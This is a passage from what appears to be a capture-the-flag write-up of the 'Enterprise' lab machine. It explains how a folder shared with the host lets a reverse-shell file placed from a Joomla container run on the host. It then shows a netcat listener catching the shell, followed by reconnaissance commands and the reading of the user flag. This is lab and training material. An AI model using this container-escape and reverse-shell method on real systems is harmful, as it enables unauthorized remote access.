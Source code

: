 so the files folder is mounted same as the folder in https service, so if we add file from this joomla machine,
it will symlink to the https service, so if we wanna run reverse shell on the host machine we could try to run put the reverse shell files in folder `/files/` and
accessing the file using https service because its running on host machine.

and we got the host machine reverse shell :D

```
•% ➜ nc -lvp 1332
Listening on [0.0.0.0] (family 0, port 1332)
Connection from [10.10.10.61] port 1332 [tcp/*] accepted (family 2, sport 36426)
Linux enterprise.htb 4.10.0-37-generic #41-Ubuntu SMP Fri Oct 6 20:20:37 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 16:53:37 up 49 min,  0 users,  load average: 2.30, 2.69, 4.79
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:b9:9d:69 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.61/24 brd 10.10.10.255 scope global ens33
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:9d69/64 scope global mngtmpaddr dynamic
       valid_lft 86052sec preferred_lft 14052sec
    inet6 fe80::250:56ff:feb9:9d69/64 scope link
       valid_lft forever preferred_lft forever
3: docker0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
    link/ether 02:42:91:d8:42:b3 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 scope global docker0
       valid_lft forever preferred_lft forever
    inet6 fe80::42:91ff:fed8:42b3/64 scope link
       valid_lft forever preferred_lft forever
5: vethd83e040@if4: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master docker0 state UP group default
    link/ether b2:e4:8e:a9:90:0e brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet6 fe80::b0e4:8eff:fea9:900e/64 scope link
       valid_lft forever preferred_lft forever
7: veth58ffdf7@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master docker0 state UP group default
    link/ether de:07:fa:9f:e5:b9 brd ff:ff:ff:ff:ff:ff link-netnsid 2
    inet6 fe80::dc07:faff:fe9f:e5b9/64 scope link
       valid_lft forever preferred_lft forever
9: vethb9c7e9a@if8: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master docker0 state UP group default
    link/ether ca:eb:0a:77:b6:12 brd ff:ff:ff:ff:ff:ff link-netnsid 1
    inet6 fe80::c8eb:aff:fe77:b612/64 scope link
       valid_lft forever preferred_lft forever
$ hostname
enterprise.htb
$ ls /home
jeanlucpicard
$ ls /home/jeanlucpicard/
user.txt
$ cat /home/jeanlucpicard/user.txt
08552d48aa6[REDACTED]7f1b4ba8747
$
```
